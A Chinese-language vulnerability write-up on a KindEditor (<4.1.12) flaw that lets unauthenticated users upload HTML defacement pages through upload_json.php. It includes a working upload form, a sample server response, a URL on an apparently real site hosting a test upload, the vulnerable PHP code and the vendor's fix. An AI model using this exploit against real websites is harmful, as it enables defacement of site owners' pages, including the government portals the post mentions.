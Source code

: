 ## 前言
偶然看到的文章，大量政府网站被挂黑页，利用的是 `cve` 在2017年就已经暴出来的编辑器漏洞。 `https://mp.weixin.qq.com/s/SqPu88RALGMOPeAJ34uNeQ`

## 影响范围
`kindeditor < 4.1.12` ，任意已存在语言
测试通过版本为 `4.1.11`
造成影响：被挂黑页

## 漏洞复现
下载链接：`https://github.com/kindsoft/kindeditor/tags`
在 `/php/upload_json.php` 同目录建立一个 `html` 页面，用来上传
```
	<!DOCTYPE html>
	<html lang="en">
	<head>
	    <meta charset="UTF-8">
	    <meta name="viewport" content="width=device-width, initial-scale=1.0">
	    <title>Document</title>
	</head>
	<body>
	    <form action="upload_json.php?dir=file" method="POST" enctype="multipart/form-data" >
	        <input type="file" name="imgFile" />
	        <input type="submit" name="submit" >
	    </form>
	</body>
	</html>
```
注意 `html` 中的 `form` ，`action` 参数需要为 `upload_json.php?dir=file` ，是因为漏洞点在 `upload_json.php` 中，需要 `dir` 为 `file` ，才可以上传 `html` 页面，此外 `name` 必须为 `imgFile` 保证能正确上传。

随意上传一个 `html` 页面或者说你的黑页，其`response` 为
```
	HTTP/1.1 200 OK
	Server: nginx/1.15.11
	Date: Sun, 26 Jul 2020 06:23:47 GMT
	Content-Type: text/html; charset=UTF-8
	Connection: close
	X-Powered-By: PHP/5.6.9
	Content-Length: 82

	{"error":0,"url":"\/php\/..\/attached\/file\/20200726\/20200726164023_11510.html"}
```
需要已存在 `attached` 目录，不会自动创建，之后直接访问就可以了，比如这里就是

http://www.tiance.cn/attached/file/20200726/20200726164129_91628.html

#### 使用curl传文件

`curl` 也是可以上传文件的，文件关键字这里是 `imgFile` ，需要给文件名加一个 `@`
![](./6baffe2f36dac28c80b915b00ee1b48b.png)
可以看到，利用 `curl` ，我们可以很容易就成功上传。

## 漏洞详情
在 `upload_json.*` 中，存在如下代码
```
	...
	$ext_arr = array(
	    'image' => array('gif', 'jpg', 'jpeg', 'png', 'bmp'),
	    'flash' => array('swf', 'flv'),
	    'media' => array('swf', 'flv', 'mp3', 'wav', 'wma', 'wmv', 'mid', 'avi', 'mpg', 'asf', 'rm', 'rmvb'),
	    'file' => array('doc', 'docx', 'xls', 'xlsx', 'ppt', 'htm', 'html', 'txt', 'zip', 'rar', 'gz', 'bz2'),
	);
	...

	$temp_arr = explode(".", $file_name);
	    $file_ext = array_pop($temp_arr);
	    $file_ext = trim($file_ext);
	    $file_ext = strtolower($file_ext);
	    *//检查扩展名*
	    if (in_array($file_ext, $ext_arr[$dir_name]) === false) {
	        alert("上传文件扩展名是不允许的扩展名。\n只允许" . implode(",", $ext_arr[$dir_name]) . "格式。");
	    }
	    *//创建文件夹*
	    if ($dir_name !== '') {
	        $save_path .= $dir_name . "/";
	        $save_url .= $dir_name . "/";
	        if (!file_exists($save_path)) {
	            mkdir($save_path);
	        }
	    }
	    $ymd = date("Ymd");
	    $save_path .= $ymd . "/";
	    $save_url .= $ymd . "/";
	    if (!file_exists($save_path)) {
	        mkdir($save_path);
	    }
	    *//新文件名*
	    $new_file_name = date("YmdHis") . '_' . rand(10000, 99999) . '.' . $file_ext;
	    *//移动文件*
	    $file_path = $save_path . $new_file_name;
	    if (move_uploaded_file($tmp_name, $file_path) === false) {
	        alert("上传文件失败。");
	    }
	    @chmod($file_path, 0644);
	    $file_url = $save_url . $new_file_name;
	    header('Content-type: text/html; charset=UTF-8');
	    $json = new Services_JSON();
	    echo $json->encode(array('error' => 0, 'url' => $file_url));
	    exit;
	...
```
这里只有一个白名单，没有其他过滤，可以上传 `html` 和 `htm` 等，此外，该文件不需要任何权限就可以访问，因此可以上传黑页。

在 `4.1.12` 版本中，将 `upload_json.*` 都改为了 `upload_json.*.txt` ，因此不会被 `php` 解析，此外，还删除了白名单中的 `html` 与 `htm` 。

## 总结

这个漏洞，看上去危害并不是很大，这也是我在网上并没有找到什么文章讲这个的原因，但是对于一些比较重视自己网站门户的站长，还是很重要的，尤其是政府。